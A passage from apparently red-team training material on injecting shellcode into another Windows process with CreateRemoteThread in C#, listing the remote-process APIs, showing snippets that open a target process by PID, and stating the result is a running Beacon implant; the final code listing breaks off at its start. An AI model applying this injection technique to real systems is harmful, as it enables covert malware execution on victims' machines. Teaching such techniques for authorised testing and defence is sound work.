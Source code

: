 ```cs
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
```

# CreateRemoteThread

**CreateRemoteThread** behaves in much the same way as CreateThread, but allows you to start a thread in a process other than your own.  This can be used to inject shellcode into a different process.  The injection steps are practically identical to the previous example, but we use slightly different APIs.

-   VirtualAlloc -> VirtualAllocEx
-   Marshal.Copy -> WriteProcessMemory
-   VirtualProtect -> VirtualProtectEx
-   CreateThread -> CreateRemoteThread

Manually open a process such as notepad and use its PID as your target process.  To open a handle to the target process, you can use the OpenProcess API or the .NET Process class.

```cs
using System.Diagnostics;

namespace CreateRemoteThread
{
    internal class Program
    {
        static void Main(string[] args)
        {
            var process = Process.GetProcessById(1234);
        }
    }
}
```
  

For convenience, you may also pass the PID on the command line.

```cs
var pid = int.Parse(args[0]);
var process = Process.GetProcessById(pid);
```
  

The process variable will have a property called `Handle` which can be passed to the APIs.  The rest is the same pattern, and you should get a Beacon running in your target process.  

![](https://rto2-assets.s3.eu-west-2.amazonaws.com/process-injection/createremotethread/beacon.png)

# Final Code
```cs
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Linq;
using System.Net.Http;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
 

namespace CreateRemoteThread
{
    class Win32
    {
```